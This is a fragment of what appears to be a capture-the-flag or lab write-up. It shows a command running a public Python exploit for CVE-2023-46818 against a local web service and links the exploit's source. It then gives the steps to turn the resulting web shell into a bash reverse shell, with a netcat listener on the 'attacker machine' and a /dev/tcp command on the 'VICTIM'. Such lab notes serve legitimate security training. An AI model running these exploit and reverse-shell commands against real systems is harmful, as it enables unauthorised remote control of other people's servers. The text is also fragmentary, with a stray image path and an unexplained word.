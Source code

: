 

 python3 exploit.py http://127.0.0.1:9090/ admin 
 
 https://github.com/bipbopbup/CVE-2023-46818-python-exploit/blob/main/exploit.py
 
 slowmotionapocalypse

Once you get the web shell upgrade it with


On attacker machine
nc -lvnp 4444


On VICTIM
bash -c "bash -i >& /dev/tcp/10.10.14.11/4444 0>&1"

